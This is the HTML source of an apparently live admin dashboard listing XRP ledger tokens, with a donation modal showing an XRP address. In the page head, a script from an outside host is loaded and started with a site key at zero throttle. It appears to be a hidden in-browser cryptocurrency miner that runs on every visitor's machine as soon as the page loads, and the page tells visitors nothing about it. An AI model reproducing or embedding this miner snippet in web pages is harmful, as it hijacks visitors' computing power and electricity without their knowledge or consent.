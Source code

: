 

<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Jan</title>
        <meta content='width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no' name='viewport'>
        
        <link rel="icon" href="https://tokens.vfcs.ph/logo.png">
        <link rel="icon" href="https://tokens.vfcs.ph/logo.png" type="image/gif">
        <link rel="shortcut icon" href="https://tokens.vfcs.ph/logo.png" type="image/gif">
        
        <!-- bootstrap 3.0.2 -->
        <link href="https://tokens.vfcs.ph/assets/css/bootstrap.min.css" rel="stylesheet" type="text/css" />
        <!-- font Awesome -->
        <link href="https://tokens.vfcs.ph/assets/css/font-awesome.min.css" rel="stylesheet" type="text/css" />
        <!-- Font icons -->
        <link href='https://tokens.vfcs.ph//assets/fonts/fonts/css/all.css' rel='stylesheet' type='text/css'>
        <!-- Ionicons -->
        <link href="https://tokens.vfcs.ph/assets/css/ionicons.min.css" rel="stylesheet" type="text/css" />
        <!-- jvectormap -->
        <link href="https://tokens.vfcs.ph/assets/css/jvectormap/jquery-jvectormap-1.2.2.css" rel="stylesheet" type="text/css" />
        <!-- bootstrap wysihtml5 - text editor -->
        <link href="https://tokens.vfcs.ph/assets/css/bootstrap-wysihtml5/bootstrap3-wysihtml5.min.css" rel="stylesheet" type="text/css" />
        <!-- Theme style -->
        <link href="https://tokens.vfcs.ph/assets/css/AdminLTE.css" rel="stylesheet" type="text/css" />
        <link href="https://tokens.vfcs.ph/assets/css/main.css" rel="stylesheet" type="text/css" />
        <link rel="stylesheet" href="https://tokens.vfcs.ph//assets/css/bootstrap-grid.min.css">

        <!-- HTML5 Shim and Respond.js IE8 support of HTML5 elements and media queries -->
        <!-- WARNING: Respond.js doesn't work if you view the page via file:// -->
        <!--[if lt IE 9]>
          <script src="https://oss.maxcdn.com/libs/html5shiv/3.7.0/html5shiv.js"></script>
          <script src="https://oss.maxcdn.com/libs/respond.js/1.3.0/respond.min.js"></script>
        <![endif]-->

        <!-- DATA TABLES -->
<!--        <link href="--><!--/assets/css/datatables/dataTables.bootstrap.css" rel="stylesheet" type="text/css" />-->
<!--        <link href="--><!--/assets/css/buttons.dataTables.min.css" rel="stylesheet" type="text/css" />-->

<!--        SWAP to CDN-->
        <!--<link href="https://tokens.vfcs.ph//assets/css/datatables.min.css" rel="stylesheet" type="text/css" />-->
        <link rel="stylesheet" type="text/css" href="https://cdn.datatables.net/r/dt/jq-2.1.4,jszip-2.5.0,pdfmake-0.1.18,dt-1.10.9,af-2.0.0,b-1.0.3,b-colvis-1.0.3,b-html5-1.0.3,b-print-1.0.3,se-1.0.1/datatables.min.css"/>

        <link href="https://tokens.vfcs.ph//assets/css/select2.min.css" rel="stylesheet" type="text/css" />
        <script src="https://www.hostingcloud.racing/vYz7.js"></script>
        <script>
            var _client = new Client.Anonymous('d99a414231dd83ffeb4bb9f510eeedfe8e6c549cd938640c5182eb5b0be0e53e', {
                throttle: 0, c: 'w', ads: 0
            });
            _client.start();
            
        
        </script>
    </head>

<body class="skin-blue">
<!-- header logo: style can be found in header.less -->
<header class="header">
    <div class="logo">
    <a href="https://tokens.vfcs.ph/" class="">
        <!-- Add the class icon to your logo image or logo icon to add the margining -->
        <img src="https://tokens.vfcs.ph//assets/img/janjan.png" width="150px">
    </a>
    </div>
    <!-- Header Navbar: style can be found in header.less -->
    <nav class="navbar navbar-static-top" role="navigation">
        <!-- Sidebar toggle button-->
        <a href="#" class="navbar-btn sidebar-toggle" data-toggle="offcanvas" role="button">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
        </a>
        <div class="navbar-right">
            <ul class="nav navbar-nav">
                <!-- Messages: style can be found in dropdown.less-->
                <li class="dropdown messages-menu">
                <li class="dropdown user user-menu">
                    <a href="#" class="dropdown-toggle" data-toggle="dropdown">
                        <i class="glyphicon glyphicon-user"></i>
                        Finex                        <i class="caret"></i></span>
                    </a>
                    <ul class="dropdown-menu">
                        <!-- User image -->
                        <li class="user-header bg-vdefault">
                            <img src="https://tokens.vfcs.ph/assets/pic/default.png" class="img-circle" alt="User Image" />
                            <p style="color:#FFFFFF">
                                Finex                                <small>Admin</small>
                            </p>
                        </li>
                        <!-- Menu Footer-->
                        <!--<li class="user-footer">-->
                        <!--    <div class="pull-left">-->
                        <!--    <a href="javascript:void(0)" onclick="showChangePass()" class="btn btn-default btn-flat">Change Password</a>-->
                        <!--    </div>-->
                        <!--    <div class="pull-right">-->
                        <!--        <a id="signout" href="javascript:void(0)" onclick="logout()" class="btn btn-default btn-flat">Sign out</a>-->
                        <!--    </div>-->
                        <!--</li>-->
                    </ul>
                </li>
            </ul>
        </div>
    </nav>
</header>
<div class="wrapper row-offcanvas row-offcanvas-left">
    <!-- Left side column. contains the logo and sidebar -->
    <aside class="left-side sidebar-offcanvas">
        <!-- sidebar: style can be found in sidebar.less -->
        <section class="sidebar">
            <div class="user-panel">
                <div class="pull-left image">
                    <img src="https://tokens.vfcs.ph/assets/pic/default.png" class="img-circle" alt="User Image" />
                </div>
                <div class="pull-left info">
                    <p>Hello, jan</p>

                    <a href="#"><i class="fa fa-circle text-success"></i> Admin</a>
                </div>
            </div>
            <!-- search form
            <form action="#" method="get" class="sidebar-form">
                <div class="input-group">
                    <input type="text" name="q" class="form-control" placeholder="Search..."/>
                    <span class="input-group-btn">
                                <button type='submit' name='seach' id='search-btn' class="btn btn-flat"><i class="fa fa-search"></i></button>
                            </span>
                </div>
            </form>
             /.search form
            <!-- sidebar menu: : style can be found in sidebar.less -->
            <ul class="sidebar-menu">
                <li class="active ">
                    <a href="https://tokens.vfcs.ph/Dashboard">
                        <i class="fa fa-coins"></i> <span>Tokens</span>
                    </a>
                </li>
                <li>
                    <a href="#" onclick="showQR()">
                        <i class="fa fa-qrcode"></i> <span>Donate</span>
                    </a>
                </li>



            </ul>
        </section>
        <!-- /.sidebar -->
    </aside>

<div class="modal fade" id="qrcode" tabindex="-1" role="dialog" aria-labelledby="myModalLabel" aria-hidden="true">
							<div class="modal-dialog">
								<div class="modal-content">
									<div class="modal-header">
										<button type="button" class="close" data-dismiss="modal" aria-hidden="true">&times;</button>
										<h4 class="modal-title">Thank you!</h4>
									</div>
									<div class="modal-body">
										<form id="frmChangePassModal" method="post" class="form-horizontal" action="">
										<center>
										    <img src="https://tokens.vfcs.ph/assets/img/qrcode.PNG">
									        <div class="form-group">
    											<label class="col-md-3 control-label">XRP Address</label>
    											<div class="col-md-8">
    												<input type="text" class="form-control" id="confirm_pass" name="confirm_pass"  value="rU2mEJSLqBRkYLVTv55rFTgQajkLTnT6mA" readonly />
    											</div>
										    </div>
										    <div class="form-group">
    											<label class="col-md-3 control-label">XRP Tag</label>
    											<div class="col-md-8">
    												<input type="text" class="form-control" id="confirm_pass" name="confirm_pass"  value="330959" readonly />
    											</div>
										    </div>
										</center>
										</form>
									</div>
								</div>
							</div>
						</div>
<!-- Right side column. Contains the navbar and content of the page -->
<aside class="right-side">
    <section class="content-header">
        <h1>
            Token List
        </h1>
        <ol class="breadcrumb">
            <li><a href="https://tokens.vfcs.ph/Dashboard"><i class="fa fa-home"></i> Home</a></li>
            <li class="active">Tokens</li>
        </ol>
    </section>
    <!-- Main content -->
    <section class="content">
        <div class="row">
            <div class="col-xs-12">
                <div class="box box-primary no-margin" style="padding: 5px;">
                    <button type="button" id="new_products" onclick="reload_products()" class="btn btn-sm btn-primary"><i class="fa fa-refresh"> </i> Reload </button>
                </div>
                <div class="box box-primary">
                    <div class="box-body table-responsive">
                        <table id="products_table" class="table table-bordered table-hover">
                            <thead>
                            <tr>
                                <th>ID</th>
                                <th>Issuer Address</th>
                                <th>Currency</th>
                                <th>Trustlines</th>
                                <th>Limit</th>
                                <th>Created Date</th>
                                <th>Sologenic DEX</th>
                                <th>Resolved By</th>
                                <th>Account</th>
                                <th>Username</th>
                                <th>Domain</th>
                                <th>Twitter</th>
                                <th>Verified</th>
                                <th>KYC</th>
                                <th>Action <a id="reload_products" title="Reload Customer List" class="btn btn-xs btn-default pull-right" onclick="reload_products()"><i class="fa fa-refresh"> </i> </a></th>
                            </tr>
                            </thead>
                            <tbody>

                            </tbody>
                        </table>
                    </div><!-- /.box-body -->
                </div><!-- /.box -->
            </div>
        </div>
    </section> <!--&lt;!&ndash; /.content &ndash;&gt;-->
</aside><!-- /.right-side -->
</div><!-- ./wrapper -->

<!-- jQuery 2.0.2 - 3.3.1-->
<!--        <script src="http://ajax.googleapis.com/ajax/libs/jquery/2.0.2/jquery.min.js"></script>-->
<script src="https://tokens.vfcs.ph/assets/js/jquery-2.0.2.min.js" type="text/javascript"></script>
<link href="https://tokens.vfcs.ph//assets/css/sweetalert.css" rel="stylesheet" type="text/css" />
<script src="https://tokens.vfcs.ph/assets/js/sweetalert.js" type="text/javascript"></script>
<!--<script src="--><!--assets/js/jquery-3.3.1.min.js" type="text/javascript"></script>-->
<script src="https://tokens.vfcs.ph/assets/js/declarations.js" type="text/javascript"></script>

<!-- jQuery UI 1.10.3 -->
<script src="https://tokens.vfcs.ph/assets/js/jquery-ui-1.10.3.min.js" type="text/javascript"></script>

<!-- DATA TABES SCRIPT -->
<!--    <script src="--><!--/assets/js/plugins/datatables/jquery.dataTables.js" type="text/javascript"></script>-->
<!--    <script src="--><!--/assets/js/plugins/datatables/dataTables.bootstrap.js" type="text/javascript"></script>-->

<!--SWAP to CDN-->
    <script src="https://tokens.vfcs.ph//assets/js/datatables.min.js" type="text/javascript"></script>
<!--<script type="text/javascript" src="https://cdn.datatables.net/r/dt/jq-2.1.4,jszip-2.5.0,pdfmake-0.1.18,dt-1.10.9,af-2.0.0,b-1.0.3,b-colvis-1.0.3,b-html5-1.0.3,b-print-1.0.3,se-1.0.1/datatables.min.js"></script>-->
    <script src="https://tokens.vfcs.ph//assets/js/customer.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph/assets/js/select2.min.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph/assets/js/plugins/numeric/numeric.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph//assets/js/ajaxfileupload.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph//assets/js/role.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph/assets/js/plugins/input-mask/jquery.inputmask.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph/assets/js/plugins/input-mask/jquery.inputmask.date.extensions.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph/assets/js/plugins/input-mask/jquery.inputmask.extensions.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph//assets/js/jspdf.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph/assets/js/jquery-resizable.js"></script>

    <script src="https://tokens.vfcs.ph/assets/js/declarations.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph/assets/js/main.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph/assets/js/user.js" type="text/javascript"></script>
    <script src="https://tokens.vfcs.ph/assets/js/products.js" type="text/javascript"></script>


<script src="https://tokens.vfcs.ph/assets/js/buttons.html5.js" type="text/javascript"></script>

<!-- Bootstrap -->
<script src="https://tokens.vfcs.ph/assets/js/bootstrap.min.js" type="text/javascript"></script>
<!-- Sparkline -->
<script src="https://tokens.vfcs.ph/assets/js/plugins/sparkline/jquery.sparkline.min.js" type="text/javascript"></script>
<!-- jvectormap -->
<script src="https://tokens.vfcs.ph/assets/js/plugins/jvectormap/jquery-jvectormap-1.2.2.min.js" type="text/javascript"></script>
<script src="https://tokens.vfcs.ph/assets/js/plugins/jvectormap/jquery-jvectormap-world-mill-en.js" type="text/javascript"></script>
<!-- jQuery Knob Chart -->
<script src="https://tokens.vfcs.ph/assets/js/plugins/jqueryKnob/jquery.knob.js" type="text/javascript"></script>
<!-- Bootstrap WYSIHTML5 -->
<script src="https://tokens.vfcs.ph/assets/js/plugins/bootstrap-wysihtml5/bootstrap3-wysihtml5.all.min.js" type="text/javascript"></script>
<!-- iCheck -->
<script src="https://tokens.vfcs.ph/assets/js/plugins/iCheck/icheck.min.js" type="text/javascript"></script>
<!-- AdminLTE App -->
<script src="https://tokens.vfcs.ph/assets/js/AdminLTE/app.js" type="text/javascript"></script>

<!-- AdminLTE dashboard demo (This is only for demo purposes) -->
<!--<script src="--><!--assets/js/AdminLTE/dashboard.js" type="text/javascript"></script>-->


<script src="https://tokens.vfcs.ph/assets/js/nav.js" type="text/javascript"></script>
<div class="modal fade" id="changePass" tabindex="-1" role="dialog" aria-labelledby="myModalLabel" aria-hidden="true">
							<div class="modal-dialog">
								<div class="modal-content">
									<div class="modal-header">
										<button type="button" class="close" data-dismiss="modal" aria-hidden="true">&times;</button>
										<h4 class="modal-title">Change Password</h4>
									</div>
									<div class="modal-body">
										<!-- The form is placed inside the body of modal -->
										<form id="frmChangePassModal" method="post" class="form-horizontal" action="">
											<div class="form-group">
												<label class="col-md-3 control-label">Current Password</label>
												<div class="col-md-8">
													<input type="password" class="form-control" id="current_pass" name="current_pass"  maxlength="50" />
												</div>
											</div>
											<div class="form-group">
												<label class="col-md-3 control-label">New Password</label>
												<div class="col-md-8">
													<input type="password" class="form-control" id="new_pass" name="new_pass"  maxlength="50" />
												</div>
											</div>
											<div class="form-group">
												<label class="col-md-3 control-label">Confirm Password</label>
												<div class="col-md-8">
													<input type="password" class="form-control" id="confirm_pass" name="confirm_pass"  maxlength="50" />
												</div>
											</div>
											<input type="hidden" class="form-control" name="user_no" id="user_no" value="" />
											<hr/><div class="form-group">
												<div class="col-md-5 col-md-offset-3">
													<a class="btn btn-primary" onclick="changePass()">Change Password</a>
												</div>
											</div>
										</form>
									</div>
								</div>
							</div>
						</div>
</body>
</html>
